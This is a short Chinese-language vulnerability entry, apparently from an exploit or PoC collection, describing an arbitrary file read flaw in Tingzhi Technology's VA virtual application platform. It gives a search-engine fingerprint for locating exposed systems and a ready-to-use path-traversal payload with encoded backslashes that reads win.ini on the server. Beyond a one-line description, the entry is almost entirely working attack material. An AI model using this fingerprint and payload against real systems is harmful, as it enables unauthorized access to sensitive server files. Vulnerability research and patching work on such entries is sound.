


# 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

霆智科技 VA虚拟应用平台

## 网络测绘

```
body="EAA益和应用接入系统"
```

## 漏洞复现

登陆页面

 

验证POC

```
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

